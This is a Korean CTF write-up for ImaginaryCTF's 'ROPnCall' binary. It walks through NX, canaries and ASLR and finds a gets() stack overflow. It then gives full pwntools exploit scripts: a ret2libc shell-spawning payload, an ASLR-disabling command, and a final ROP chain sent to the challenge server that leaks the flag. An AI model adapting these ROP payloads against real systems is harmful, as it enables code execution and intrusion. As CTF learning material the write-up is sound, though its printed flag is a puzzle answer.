






# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[ROPnCall.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20ImaginaryCTF%20Round10/ROPnCall/file/ROPnCall.zip)


# **Write-Up**

해당 파일의 NX 를 확인하면 활성화되어 있으면서, 동적 라이브러리를 사용한다.

* NX Bit : 프로세스 명령어나 코드 또는 데이터 저장을 위한 메모리 영역을 따로 분리하는 CPU의 기술 NX특성으로 지정된 모든 메모리 구역은 데이터 저장을 위해서만 사용되며, 프로세스 명령어가 그 곳에 상주하지 않음으로써 실행되지 않도록 만들어 준다.
* Canary :Canaries 또는 Canary word는 버퍼 오버 플로우를 모니터하기 위해 버퍼와 제어 데이터 사이에 설정 된 값 버퍼 오버플로가 발생하면 Canary 값이 손상되며, Canaries 데이터의 검증에 실패하여, 오버플로에 대한 경고가 출력되고, 손상된 데이터를 무효화 처리 




* NX Bit 컴파일 옵션

    NX-disabled : gcc -z execstack -o disabled source.c
    
    NX-enabled : gcc -o enabled source.c

gdb로 확인해보면 gets함수에서 overflow가 터지는 취약점이 존재한다.

```
0x00000000004012d4 <+91>:    lea    -0x10(%rbp),%rax
0x00000000004012d8 <+95>:    mov    %rax,%rdi
0x00000000004012db <+98>:    mov    $0x0,%eax
0x00000000004012e0 <+103>:   callq  0x4010a0 <gets@plt>
```

rp++을 이용하여 pop rdi pop ret Gadget offset을 구한다.

```sh
root@ubuntu:~# ./rp-lin-x64 -f /lib/x86_64-linux-gnu/libc.so.6 -r 3 | grep "pop rdi ; pop"
0x00022203: pop rdi ; pop rbp ; ret  ;  (1 found)
...
```

ASLR을 해제(echo 0 > /proc/sys/kernel/randomize_va_space)하고 로컬 파일을 불러와 테스트해본다.

```py
e = ELF("./ROPnCall", checksec=False)
libc = e.libc
libc.address = 0x00007ffff79e2000

system_addr = libc.symbols['system']
shell_addr  = next(libc.search("/bin/sh".encode()))

r = ROP(e)
gadget = libc.address + 0x00022203

p = process("./ROPnCall")
payload = b''
payload += b'A'*(16 + 8)
payload += p64(gadget)
payload += p64(shell_addr)
payload += b'A'* 8
payload += p64(system_addr)
p.recvuntil('what else?')
p.sendline(payload)
p.interactive()

[Output]
root@ubuntu:~# [*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 17 cached gadgets for './ROPnCall'
[+] Starting local process './ROPnCall': pid 16803
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
```

* ASLR : 메모리 손상 취약점 공격을 방지하기 위한 기술

스택, 힙, 라이브러리, 등의 주소를 랜덤한 영역에 배치하여, 공격에 필요한 Target address를 예측하기 어렵게 만듦

프로그램이 실행 될 때 마다 각 주소들이 변경됨

shell을 획득하는데 성공했으니 문제의 서버로 exploit해보면 shell을 얻지 못한다. 따라서 ASLR이 적용되어 있다고 본다.

```py
e = ELF("./ROPnCall", checksec=False)
libc = e.libc
libc.address = 0x00007ffff79e2000

system_addr = libc.symbols['system']
shell_addr  = next(libc.search("/bin/sh".encode()))

r = ROP(e)
gadget = libc.address + 0x00169c0b # pop rdi; pop rbp; ret;

p = remote('20.94.210.205', 1337)
payload = b''
payload += b'A'*(16 + 8)
payload += p64(gadget)
payload += p64(shell_addr)
payload += b'A'* 8
payload += p64(system_addr)
p.recvuntil('what else?')
p.sendline(payload)
p.interactive()

[Output]
...
[+] Opening connection to 20.94.210.205 on port 1337: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
```

strings을 사용해서 "flag" 문자열을 찾아보니 ROPnCall 바이너리에 들어있었고, 해당 주소로 가보니 flag.txt를 읽어서 출력하는 로직(0x4011BA)이 있다.



0x4011C2 ~ 0x4011D2까지 여러 레지스터로부터 [rbp-0x54] ~ [rbp-0x68]까지 데이터를 저장하는 것으로 보아 gadget은 pop edi; ret; pop esi; ret; ~ 이 필요하다.



그리고 레지스터에는 다음의 이미지처럼 지정된 값이 들어가 있어야하고, [rbp+0x10]에도 overflow를 일으켜 데이터를 저장시켜줘야 한다.



최종 exploit 코드는 다음과 같다.

```py
from pwn import *
# on Linux : pip install -U pip setuptools 
context(arch='amd64')
p = remote('20.94.210.205', 1337)
e = ELF("./ROPnCall", checksec=False)
r = ROP(e)
flag_addr = 0x4011ba

payload = b''
payload += b'A'*(16 + 8)
payload += p64(r.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(0xACC01ADE)
payload += p64(r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0])
payload += p64(0xB1A5ED0F)
payload += b'A'*8
payload += p64(r.find_gadget(['pop rdx', 'ret'])[0])
payload += p64(0xDEADBEEF)
payload += p64(r.find_gadget(['pop rcx', 'ret'])[0])
payload += p64(0xBA5EBA11)
payload += p64(0x0040126e) # pop r8 ret
payload += p64(0x1337C0DE)
payload += p64(0x00401271) # pop r9 ret
payload += p64(0xC001C0DE)
payload += p64(flag_addr)
payload += b'A'*8
payload += p64(0xDEA110C8)

p.recvuntil('what else?')
p.sendline(payload)
p.recv()
print(p.recv().decode())

[Output]
[+] Opening connection to 20.94.210.205 on port 1337: Done
[*] Loaded 17 cached gadgets for './ROPnCall'
ictf{linux_x86-64_follows_system_v_amd64_abi_calling_convention}

[*] Closed connection to 20.94.210.205 port 1337
```


# **FLAG**

**ictf{linux_x86-64_follows_system_v_amd64_abi_calling_convention}**